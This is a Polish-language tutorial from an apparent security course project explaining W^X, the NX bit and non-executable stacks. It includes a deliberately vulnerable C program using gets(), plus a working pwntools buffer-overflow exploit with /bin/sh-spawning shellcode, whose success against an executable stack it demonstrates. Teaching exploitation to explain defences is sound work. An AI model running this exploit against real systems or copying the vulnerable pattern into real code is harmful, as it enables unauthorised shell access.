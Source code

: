 # 1.Executable space protection

### 1.1 Różne sposoby radzenia sobie z obszarami pamięci, do którym można pisać i które można wykonywać

Dość ważny aspektem bezpieczeństwa jest rozdzielanie uprawnień obszarom pamięci. Pamięć oznaczona jednocześnie jako W (write) i X (execute) stwarza realne zagrożenie, bo pozwala na wykonanie dowolnego kodu przez atakującego.

Problem rozwiązywany jest zarówno sprzętowo, jak i w oprogramowaniu.

Ważna jest polityka (W^X) - mówiąca, że dana strona pamięci może być tylko i wyłącznie albo wykonywalna, albo można do niej pisać. Polityka ta została wprowadzona w OpenBSD 3.3 w 2003 roku. Polityka jest dość dobrą obroną przed atakami buffer overflow.

Odpowiedzią Microsoftu było DEP (Data Execution Preventon) wprowadzone w Windows XP zawierające szereg zabezpieczeń - między innymi obsługę `NX-bit` oraz póżniej ASLR.

Obecnie sprzętowym sposobem realizacji jest tak zwany `NX-bit` odpowiadający właśnie za wykonywalność pamięci. Z tego właśnie korzystać jądro Linuxa, jeżeli procesor obsługuje tą funkcje.

W innym przypadku możliwa jest również emulacja tej funkcjonalności (przykład Exec Shield i PaX). Emulacja jest jednak dość kosztowna.

Na Linuxie do ręcznego ustawienia uprawnień obszaru służy syscall `mprotect()`. Wywoływany z odpowiednimi flagami oraz adresami pamięci.

W współczesnym świecie dobre rodzielanie uprawnień obszarom pamięci jest dość znane i implementowane jako domyślne funkcje w najczęstszych przypadkach. Takim przypadkiem jest niewykonywalność stosu wywołań, który postaram się zeksploitować w następnych punktach.

### 1.2 Opis

`gcc` defaultowo włącza non-executable stack - można go wyłączyć flaga `-z execstack`.

Tak samo zachowuje się `clang`. 

Jest to argument przekazywany do linkera, który mapuje proces na przestrzeń adresów. Wtedy też przestrzeń przeznaczona na stos jest oznaczana jako `RWX`.


Obecnie niektóre stare binarki linuxowe mogą wymagać wykonywalnego stosu, dlatego też opcja może zostać włączona. Wykonywalny stos był niegdyś prawie, że dodatkową funkcja.

Jest to związane z tym jak kompilator `gcc` zachowowywał się w przypadku `nested function`. Kompilator wtedy odkłada na stosie tak zwaną trampolinę - czyli kod, który musi być wykonywalny na stosie. Obecne problem rozwiązywany jest bez wykonywalnego stosu za pomocą deskryptorów.

Wykonywalny stack jest pokonywany za pomocą oznaczenia pamięci stacku jako niewykonywalnej. Nie ma tu żadnego spadku wydajności, jedynie ewentualnie problemy z kompatybilnością ze starymi plikami.

Wyłączenie wykonywalnego stosu jest dość podstawową metodą obrony przez eksploitacją binarną aplikacji i następne metody uwzględniają tą metodę jako uwzględnioną.

Oznaczenie pamięci jako niewykonywalna obecnie najcześciej odbywa się za pomocą ustawienia flagi `NX` w tablicy strony.

Implementacje na różnych systemach nie różnia się zbytnio.

### 1.3 Proof of concept - atak na wykonywalny stos
Pierwszym omówionym exploitem i obroną przed nim bedzie wykonywalny stack.

Kod programu, który bedzie exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    if(strlen(name) > 12) {
        puts("Nope, it's too long for me");
        exit(1);
    }
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}
```

Błędem jest użyta tu funkcja `gets()` i pozornie działające sprawdzenie długości inputu.

Dokumentacja `strlen()` mówi, że funkcja sprawdza dlugość do otrzymania `x00`. Taki znak możemy dokleić na końcu inputu, aby przepełnić bufor.

Używając pythona i pakietu pwntools postaram się wykorzystać ten błąd.

Schemat exploitacji jest następujący:

* ustalić miejsce w pamięci, w którym nadpisujemy adres powrotu
* ustalić miejsce w pamięci, w którym znajduje się bufor
* nadpisać adres powrotu adresem bufora, w którym znajduje się nasz kod.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15
```

Exploit omija sprawdzenie. 

Podłączając do processu debugger jestem w stanie ustalić jak dużo `a` muszę wysłać, aby nadpisać rejestr `eip`, który odpowiada za powrót z funkcji.

w przypadku podania 16 znaków następna nadpisana pamięć wpada w rejestr `eip`.

Wysłałem wiadomość:
```python
name = "a"*8+"\x00"+"a"*15 + '\x00\x00\x00\x00'
```
![img_2.png](img/img_2.png)

Rejestr został nadpisany.

Z debuggera wyciagam adres miejsca,w którym nadpisuje dane.

Adres ten jest stały, bo nie używamy ani PIE ani ASLR.

Dopisując do naszej wiadomości adres bufora powiększony o offset generowany przez poprzednie wiadomości uda nam się skierować wykonywanie programu na złośliwy kod, który jesteśmy w stanie wstrzyknąć za adresem.

```python
name += "\x20\xd2\xff\xff"
```


W tym momencie wystarczy do stringa name dokleić shellcode wywołujący execve i odpowiednimi parametrami. Shellcode ten zaczerpnałem ze strony `http://shell-storm.org/shellcode/files/shellcode-811.php`.

Jest to shellcode w assemblerze ładujący odpowiednie argumenty do odpowiednich rejestrów i wywołujący funkcje execve syscallem z argumentami wskazującymi na `bin/sh`.

```python
name += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Cały exploit wygląda następująco:

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15 # inject aaaas till eip
name += "\x20\xd2\xff\xff" # inject address of shellcode to eip
name += "\x31\xc0\x50\x68\x2f\x2f\x73"+"\x68\x68\x2f\x62\x69\x6e\x89"+"\xe3\x89\xc1\x89\xc2\xb0\x0b"+"\xcd\x80\x31\xc0\x40\xcd\x80" #shellcode to spawn shell

p.sendline(name)

p.interactive()

```


Exploit działa na programie skompilowanym z wykonywalnym stackiem. Widzimy tu interaktywny shell.

![img.png](img/img.png)

Natomiast skompilowany bez flagi pozwalającej na wykonywanie kodu na stacku nie działa. Program zakończył działanie sygnałem SIGSEGV.

![img_1.png](img/img_1.png)


### 1.4 Wnioski

Kontrolowanie tego czy dane miejsce w pamięci może wykonywać kod jest ważna i pozwala zapobiegać najprostszym atakom typu buffer overflow. Jednak nie jest to remedium na wszystkie ataki.

Ataki typu ROP lub RET2LIBC, które bedą prezentowane w dalszej częsci projektu mogą być wykonane z `nonexec` stosem. Jest to zabezpieczenie dość proste i konieczne.

